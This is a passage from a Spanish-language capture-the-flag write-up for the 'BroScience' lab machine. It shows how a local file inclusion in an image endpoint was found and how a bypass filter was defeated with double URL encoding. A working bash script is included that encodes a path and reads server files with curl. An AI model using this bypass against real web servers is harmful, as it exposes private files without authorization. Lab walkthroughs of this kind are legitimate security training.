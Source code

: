 ****
# www-data

Al intentar crearnos una cuenta, nos envía un código de activación al mail. El cuál nunca llega. Después veremos cómo activarla sin este mail.

![](images/20-accCreatorCode.png)

## LFI

Leyendo el código fuente de la página, notamos que para obtener las imágenes utiliza el endpoint `/img.php?path=` con el parámetro `path`. Aparenta ser un **LFI**.

![](images/20-LFIDetected.png)

Si probamos esto nos tira que detectó un ataque.

Después de muchas pruebas, me dí cuenta de que si encodeamos el payload con **doble url encoding**, funciona.

Con la siguiente utilidad podremos visualizar los archivos en el servidor por medio del **LFI**.

```bash
#!/bin/bash
dobleUrlencode() {
    encode1=$(printf %s "$1" | od -An -tx1 -v -w${#1} | tr ' ' %)
    encode2=$(printf %s "$encode1" | od -An -tx1 -v -w${#encode1} | tr ' ' %)
    echo $encode2
}

varToEncode=$(dobleUrlencode $1)

curl https://broscience.htb/includes/img.php?path=$varToEncode --cookie "cookie" -k
```
